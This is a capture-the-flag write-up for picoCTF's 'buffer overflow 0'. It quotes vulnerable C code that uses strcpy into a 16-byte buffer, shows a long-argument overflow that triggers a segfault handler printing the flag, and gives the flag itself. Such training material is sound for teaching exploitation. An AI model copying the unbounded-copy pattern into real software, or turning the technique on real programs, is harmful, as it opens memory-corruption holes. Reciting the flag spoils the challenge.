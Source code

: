 # buffer overflow 0
Points: 150

## Category
Binary Exploitation

## Question
>Let's start off simple, can you overflow the right buffer in this [program](files/vuln) to get the flag? You can also find it in /problems/buffer-overflow-0_2_aab3d2a22456675a9f9c29783b256a3d on the shell server. [Source](files/vuln.c). 

### Hint
>How can you trigger the flag to print?
>
>If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Solution
We can try pwning the binary locally first. Firstly, create a file _flag.txt_ and add some contents into it.

Do a sample run of the program.

```
$ ./vuln 
This program takes 1 argument.
```

Ok, now we try with an argument

```
$ ./vuln AAAA
Thanks! Received: AAAA
```

Seems like it's redirecting the input into output. Let's take a look at the source code.

```c
// Imports here...
// Define flag size here...
void sigsegv_handler(int sig) {
	fprintf(stderr, "%s\n", flag);
	fflush(stderr);
	exit(1);
}

void vuln(char *input){
	char buf[16];
	strcpy(buf, input);
}

int main(int argc, char **argv){
	// Reading flag here...
	signal(SIGSEGV, sigsegv_handler);
	// gid settings here...
	if (argc > 1) {
		vuln(argv[1]);
		printf("Thanks! Received: %s", argv[1]);
	}
	else
		printf("This program takes 1 argument.\n");
	return 0;
}
```

It looks like the `signal(SIGSEGV, sigsegv_handler)` redirects execution to `sigsegv_handler()` and prints the flag.

In `vuln()`, there is no boundary checking, so even though there is only space for 16 bytes, it `strcpy()` will keep inserting bytes into `buf`.

We can try running the program again, but this time, with a lot more characters.

```
$ ./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{sample_flag}
```

We did it locally! It takes 28 or more bytes to leak out the flag.

All we have to do is send it to the webshell.

```
$ /problems/buffer-overflow-0_2_aab3d2a22456675a9f9c29783b256a3d/vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_5d8a1fae}
```

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{ov3rfl0ws_ar3nt_that_bad_5d8a1fae}`
